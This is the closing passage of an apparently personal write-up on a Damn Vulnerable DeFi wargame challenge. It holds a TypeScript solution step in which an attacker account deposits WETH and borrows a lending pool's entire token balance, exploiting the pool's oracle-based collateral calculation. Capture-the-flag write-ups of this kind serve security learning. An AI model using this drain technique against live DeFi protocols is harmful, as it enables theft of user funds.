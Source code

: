 ```tsx
  _curInfo("State");

  const oraclePool = await this.lendingPool.calculateDepositOfWETHRequired(POOL_INITIAL_TOKEN_BALANCE);
  console.log("Oracle Pool: " + fromWei(oraclePool._hex) + "\n");

  await this.weth.connect(attacker).deposit({ value: oraclePool });
  await this.weth.connect(attacker).approve(this.lendingPool.address, oraclePool);
  await this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE);

  _curInfo("Fini");
  
});
```



## next time.. 🚀

I will continue to post auditing and research on 12 challenge defi Smart Contracts.

Thank you for the @tinchoabbate that made a good wargame.
[Damn Vunlerable Defi](https://www.damnvulnerabledefi.xyz/)

```toc
```